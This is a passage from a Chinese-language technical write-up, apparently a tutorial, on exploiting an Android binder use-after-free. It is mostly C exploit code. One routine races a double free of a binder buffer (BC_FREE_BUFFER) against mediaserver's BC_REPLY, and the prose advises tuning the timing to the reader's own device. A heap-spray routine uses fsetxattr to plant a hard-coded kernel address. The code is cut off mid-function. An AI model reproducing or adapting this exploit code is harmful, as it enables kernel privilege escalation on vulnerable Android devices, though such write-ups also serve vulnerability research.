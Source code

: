 ```
    return arg;
}
 
void raceWin(int replyParcelIndex)
{
    pthread_mutex_lock(&alloc_mutex);
    bc_free_buffer(replyParcelIndex);
    global_parcel_index = replyParcelIndex;
    pthread_cond_signal(&alloc_cond);
    pthread_mutex_unlock(&alloc_mutex);
    usleep(450);
    bc_free_buffer(replyParcelIndex);
    bc_free_buffer(replyParcelIndex - 1);
} 
 
void raceTimes()
{
    for(int i = BAIT - 1; i > 0; i--)
    {
        raceWin(i);
    }
}

```

起了两个线程，线程 1 执行 BC_FREE_BUFFER，线程 2 会通过 binder 请求 mediaserver 进程执行 BC_REPLY(binder_alloc_new_buffer)。线程 1 通过条件变量来唤醒线程 2。

```
//线程1
usleep(450);
bc_free_buffer(replyParcelIndex);
bc_free_buffer(replyParcelIndex - 1); 
 
//线程2
dataBCArray[global_parcel_index].writeInterfaceToken(String16("android.media.IMediaPlayer"));
                IInterface::asBinder(mediaPlayer)->transact(GET_PLAYBACK_SETTINGS, dataBCArray[global_parcel_index], &replyBCArray[global_parcel_index], 0);

```

线程 1 和线程 2 同步执行这两个操作，形成竞争。为什么 usleep(450)，这个因为线程 2 通过 binder 进程间通信，让 mediaserver 执行 BC_REPLY 需要一段时间，根据自己的机器情况调整这个值。总之目的是让 Client 进程 (BC_FREE_BUFFER) 和 Server 进程 (BC_REPLY) 形成竞争。可以看下图 1 中所示 BC_FREE_BUFFER 和 BC_REPLY 的位置，有助于理解这块。这里所说的 Server 进程就是 mediaserver 进程。

4、堆喷

```
void heapGuard()
{
    fsetxattr(fd_guard_heap, "user.g", guardBuffer, 1000, 0);
}
 
void heap_spray()
{
    char buff[BUFF_SIZE];
    memset(buff, 0 ,BUFF_SIZE);
    *(size_t *)((char *)buff + 64) = 20;
    *(size_t *)((char *)buff + 88) = 0xffffffc001e50834;
    fsetxattr(fd_heap_spray, "user.x", buff, BUFF_SIZE, 0);
}
 
void heap_spray_times()
{
    for (int i = 0; i < HEAP_SPRAY_TIME; i++)
    {
```